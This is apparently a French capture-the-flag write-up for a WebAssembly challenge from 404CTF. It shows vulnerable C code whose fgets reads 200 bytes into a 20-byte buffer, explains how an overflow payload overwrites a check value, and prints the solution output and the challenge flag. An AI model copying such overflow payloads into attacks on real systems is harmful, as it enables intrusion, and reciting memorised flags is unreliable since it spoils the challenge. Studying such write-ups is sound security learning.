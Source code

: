 # Un tour de magie

<img alt="énoncé du challenge" src="enonce.png" width=500>

Le fichier fourni : [tour-de-magie.zip](tour-de-magie.zip)

L'archive contient tous les éléments permettant de construire le challenge.

Le WASM a été construit à partir du code présent dans le fichier `main.c` :

```c
#include<stdlib.h>
#include<stdio.h>

int main() {
    int* check = malloc(sizeof(int));
    *check = 0xcb0fcb0f;
    puts("Alors, t'es un magicien ?");
    char input[20];
    fgets(input, 200, stdin);
    
    if(*check == 0xcb0fcb0f) {
        puts("Apparemment non...");
        exit(0);
    }
    if(*check != 0xcb0fcb0f && *check != 0x50bada55) {
        puts("Pas mal, mais il en faut plus pour m'impressionner !");
        exit(0);
    }
    if(*check == 0x50bada55) {
        puts("Wow ! Respect ! Quelles paroles enchantantes ! Voilà ta récompense...");
        FILE* f = fopen("flag.txt", "r");
        if(f == NULL) {
            puts("Erreur lors de l'ouverture du flag, contactez un administrateur !");
            exit(1);
        }
        char c;
        while((c = fgetc(f)) != -1) {
            putchar(c);
        }
        fclose(f);
    }
}
```

Un buffer overflow est exploitable grâce au `fgets()` réalisé sur `200` octets max, alors que `input` est défini comme un tableau de `char` d'une taille de `20`.

En ELF classique, on trouverait le contenu de `check` stocké juste après `input`. Pour gagner le challenge, il suffirait alors de saisir un message contenant 20 caractères (`A` par exemple) suivi par `\x55\xda\xba\x50` (qui n'est autre que `x50bada55` en little-endian).

Le stockage en WASM est continu, mais différent.

> Je n'ai pas encore trouvé de ressource indiquant précisement comme cela est géré.

Grace au fait que sur le serveur, la valeur de `check` sous affichée, en tatonnant, on trouve à quel endroit doit être positionné `\x55\xda\xba\x50` :

```bash
$ nc localhost 4000
11a20Alors, t'es un magicien ?
AAAAAAAAAAAAAAAEDCBAAAA
Pas mal, mais il en faut plus pour m'impressionner !
41424344
```

On se sert du script [`magie-solution.py`](magie-solution.py) pour communiquer avec le serveur et lui transmettre le message :

```bash
$ python3 magie-solution.py REMOTE
[+] Opening connection to challenges.404ctf.fr on port 30274: Done
11a20Alors, t'es un magicien ?
[+] Receiving all data: Done (118B)
[*] Closed connection to challenges.404ctf.fr port 30274
Wow ! Respect ! Quelles paroles enchantantes ! Voilà ta récompense...
404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}
```

On obtient ainsi le flag : `404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}`
